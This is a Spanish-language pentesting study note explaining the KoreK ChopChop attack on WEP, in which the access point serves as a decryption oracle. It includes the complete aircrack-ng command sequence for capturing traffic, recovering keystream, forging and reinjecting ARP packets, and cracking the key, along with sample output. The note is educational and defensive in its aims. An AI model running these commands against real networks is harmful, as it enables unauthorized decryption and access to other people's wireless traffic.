


---
tags:
  - Wi-Fi/WEP
  - Pentesting/Explotacion
Descripción: "Usar el AP como oráculo de descifrado: truncar un byte, ajustar el ICV por su linealidad y deducir el valor por la respuesta"
Fecha de actualización: 2026-08-01
Nota previa: "[[06 - Ataque de fragmentación]]"
Nota siguiente: "[[08 - Café Latte y ataques al cliente]]"
Area: "[[WEP.base|WEP]]"
---
---

<mark style="background: #ADCCFFA6;">El [ataque KoreK ChopChop](https://www.aircrack-ng.org/doku.php?id=korek_chopchop) descifra un paquete WEP **byte a byte, sin conocer la clave**, convirtiendo al propio AP en un oráculo de descifrado</mark>. Técnicamente es un *Inverse Arbaugh attack*, y es el ejemplo más limpio de por qué [[02 - El ICV CRC-32 y su linealidad|un checksum lineal no sirve como control de integridad]].

# La idea

El AP descarta silenciosamente todo paquete cuyo ICV no valide. Ese comportamiento inocente —diseñado para filtrar ruido— es el oráculo:

1. Se captura un paquete cifrado legítimo.
2. Se **corta el último byte** del texto cifrado.
3. Se **supone** un valor para ese byte, de 0 a 255.
4. Por la linealidad del CRC-32, se calcula la corrección del ICV que haría válido el paquete truncado **bajo esa suposición**.
5. Se envía el paquete al AP.
6. **Si el AP lo retransmite, la suposición era correcta.** Si lo descarta, se prueba el siguiente valor.
7. Se repite con el byte anterior.

<mark style="background: #FFB86CA6;">Como máximo 256 intentos por byte, y en promedio 128</mark>. El AP no sabe que está descifrando el paquete para el atacante: sólo está aplicando su regla de validación.



Cada byte acertado entrega dos cosas: el byte en claro **y** el byte de keystream correspondiente, ya que `KS = claro ⊕ cifrado`.

# Ejecución

Terminal 1, captura:

```shell-session
$ sudo airodump-ng wlan0mon -c 1 --bssid C8:D1:4D:EA:21:A6 -w WEP
```

Terminal 2, ChopChop:

```shell-session
$ sudo aireplay-ng -4 -b C8:D1:4D:EA:21:A6 -h 7E:8D:FC:DD:D7:2C wlan0mon

Size: 100, FromDS: 0, ToDS: 1 (WEP)
Use this packet ? y

Offset 87 ( 0% done) | xor = 13 | pt = 53 |  83 frames written in 1419ms
Offset 86 ( 1% done) | xor = 64 | pt = B8 |  98 frames written in 1660ms
Offset 85 ( 3% done) | xor = 5D | pt = 0C |  80 frames written in 1360ms
Offset 84 ( 5% done) | xor = 64 | pt = F3 |   4 frames written in   67ms
...
Offset 40 (87% done) | xor = 35 | pt = 00 | 136 frames written in 2316ms

Saving plaintext in replay_dec-0805-221220.cap
Saving keystream in replay_dec-0805-221220.xor
Completed in 141s (0.44 bytes/s)
```

Cada línea es un byte resuelto:

| Campo | Significado |
| ----- | ----------- |
| `Offset` | Posición del byte, de atrás hacia delante |
| `xor` | El byte de **keystream** recuperado |
| `pt` | El byte de **texto en claro** |
| `frames written` | Cuántas suposiciones hicieron falta |

<mark style="background: #FFB8EBA6;">El número de tramas por byte varía enormemente</mark> —4 en un caso, 239 en otro— porque depende de cuándo aparece el valor correcto en el recorrido. Los `pt = 00` que se repiten son relleno del paquete, y suelen resolverse rápido.

`Completed in 141s (0.44 bytes/s)` da la medida realista: **dos minutos y medio para descifrar un paquete de 100 bytes**. Fragmentación, cuando funciona, tarda segundos.

# Los dos productos

ChopChop genera dos ficheros, y el segundo es el importante:

```shell-session
$ ls
replay_dec-0805-221220.cap    # el paquete DESCIFRADO
replay_dec-0805-221220.xor    # el KEYSTREAM
```

<mark style="background: #8000E1A6;">Que produzca el paquete en claro es una ventaja sobre la fragmentación</mark>: revela el direccionamiento IP real de la red sin tener que adivinarlo.

```shell-session
$ tcpdump -s 0 -n -e -r replay_dec-0805-221220.cap

... ethertype IPv4 (0x0800), length 60:
    192.168.1.75.43748 > 192.168.1.1.443: Flags [S], seq 4053382319, ...
```

Con las IPs, se forja el ARP y se reinyecta exactamente igual que en [[06 - Ataque de fragmentación]]:

```shell-session
$ packetforge-ng -0 -a C8:D1:4D:EA:21:A6 -h 7E:8D:FC:DD:D7:2C \
    -k 192.168.1.1 -l 192.168.1.75 \
    -y replay_dec-0805-221220.xor -w forgedarp.cap

$ sudo aireplay-ng -2 -r forgedarp.cap -h 7E:8D:FC:DD:D7:2C wlan0mon
$ sudo aireplay-ng -3 -b C8:D1:4D:EA:21:A6 -h 7E:8D:FC:DD:D7:2C wlan0mon
$ aircrack-ng -b C8:D1:4D:EA:21:A6 WEP-01.cap
```

# Comportamientos que se encuentran

```text
The AP appears to drop packets shorter than 40 bytes.
Enabling standard workaround: IP header re-creation.
```

Algunos APs descartan tramas por debajo de un tamaño mínimo, lo que rompería el ataque al llegar a los últimos bytes. `aireplay-ng` lo detecta solo y **reconstruye una cabecera IP falsa** para mantener el paquete por encima del umbral. No hay que hacer nada, pero conviene saber qué significa el mensaje.

Sobre el parámetro `-h`, la documentación deja dos opciones cuando no hay cliente que suplantar: **omitirlo** —lo que provoca que el AP descarte más paquetes— o **usar la MAC de una estación asociada**, que es más fiable. Si no hay ninguna, hay que autenticarse falsamente primero: [[09 - Atacar un AP WEP sin clientes]].

# Elegir entre los tres ataques



| Criterio | ARP Replay | Fragmentación | ChopChop |
| -------- | ---------- | ------------- | -------- |
| Necesita ARP en el aire | **Sí** | No | No |
| Necesita cliente asociado | Sí (o fake auth) | Sí (o fake auth) | Sí (o fake auth) |
| Velocidad | Muy alta | **Muy alta** | Media |
| Descifra el paquete | No | No | **Sí** |
| Compatibilidad con APs | Alta | Media | **Alta** |

> [!important]+ La lección transferible
> ChopChop es un **oráculo de descifrado**, la misma familia que el *padding oracle* de CBC. El patrón —el receptor revela información sobre el texto en claro a través de su comportamiento de aceptación o rechazo— aparece una y otra vez fuera de Wi-Fi: en TLS con Lucky13, en tokens de sesión cifrados sin autenticar, en APIs que distinguen "descifrado inválido" de "datos inválidos". <mark style="background: #FF5582A6;">Cuando un sistema descifra antes de autenticar, casi siempre hay un oráculo</mark>.

El siguiente ataque cambia de objetivo: en vez del AP, el cliente — [[08 - Café Latte y ataques al cliente]].
